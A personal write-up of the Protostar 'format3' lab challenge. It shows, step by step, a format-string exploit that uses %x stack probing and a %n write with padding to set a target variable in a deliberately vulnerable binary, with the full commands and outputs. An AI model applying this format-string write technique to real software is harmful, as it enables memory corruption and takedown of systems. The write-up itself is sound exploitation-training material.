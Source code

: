 <h2>Goal</h2>

<h2>Process</h2>

```bash
objdump -t format3 | grep target
080496f4 g     O .bss	00000004              target
```

Let's see where we can write to memory, let's just blindly try 100  addresses.
```bash
python -c 'print "AAAAAAAA"+"%x "*100' | ./format3
AAAAAAAA0 bffff5d0 b7fd7ff4 0 0 bffff7d8 804849d bffff5d0 200 b7fd8420 bffff614 41414141 41414141 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 bfff000a b7fffbe8 e b7ea36e4 b7fe1afc f63d4e2e 0 3 b7fff8f8 0 0 1 
target is 00000000 :(
```
Ok great looks like we have it fairly early in, counting the amount of addresses, we get 12.


Using 13 too confirm, it is correct.
```bash
python -c 'print "AAAAAAAA"+"%x "*12' | ./format3
AAAAAAAA0 bffff5d0 b7fd7ff4 0 0 bffff7d8 804849d bffff5d0 200 b7fd8420 bffff614 41414141
target is 00000000 :(
```

Next let's put in our memory address for `target` and replace a `%x` with a `%n`
```bash
python -c 'print "\xf4\x96\x04\x08"+"%x "*11+"%n"' | ./format3
��0 bffff5d0 b7fd7ff4 0 0 bffff7d8 804849d bffff5d0 200 b7fd8420 bffff614 
target is 0000004c :(
```

Ok let's put in some padding like last time and start experimenting.

```bash
python -c 'print "\xf4\x96\x04\x08"+"%100x "*11+"%n"' | ./format3
target is 0000045b :(
```

Not nearly large enough, lets add some more 0's.

```bash
python -c 'print "\xf4\x96\x04\x08"+"%1000000x "*11+"%n"' | ./format3
target is 00a7d8cf :(
```
Closer, but still off. Adding another Zero push we way off and took a long time to execute. After changing the starting value from 1 to a few different numbers 2 got me close.  Now `014fb18f` is greater than the required `01025544`, but its significantly closer. Trying `1500000` got me really close.

```bash
python -c 'print "\xf4\x96\x04\x08"+"%2000000x "*11+"%n"' | ./format3
target is 014fb18f :(
```


After experimenting I eventually got this:
```bash
user@protostar:/opt/protostar/bin$ python -c 'print "\xf4\x96\x04\x08"+"%1539100x"*11+"%n"' | ./format3

target is 01025538 :(
```
Adding a 1 to the end of `"%1539100x"` pushed me over the value, this means this wouldnt not work.  I would have to write out each of the `"%x"` and start over.  This is because we are multiplying the spacing everytime by 11, so an increment of 4, to get from 5538 to 5544 wouldn't be achievable.  After a similar process with `python -c 'print "\xf4\x96\x04\x08"+"%10000000x%x%x%x%x%x%x%x%x%x%x"+"%n"' | ./format3` I eventually got the correct value.  




<h2>Solution</h2>

This ended up working for me.
```bash
python -c 'print "\xf4\x96\x04\x08"+"%16930052x%x%x%x%x%x%x%x%x%x%x"+"%n"' | ./format3
0bffff5d0b7fd7ff400bffff7d8804849dbffff5d0200b7fd8420bffff614
you have modified the target :)
```
However this seems like way to much guess work. Time to read some of the other writeup's to learn a more accurate way to do this.
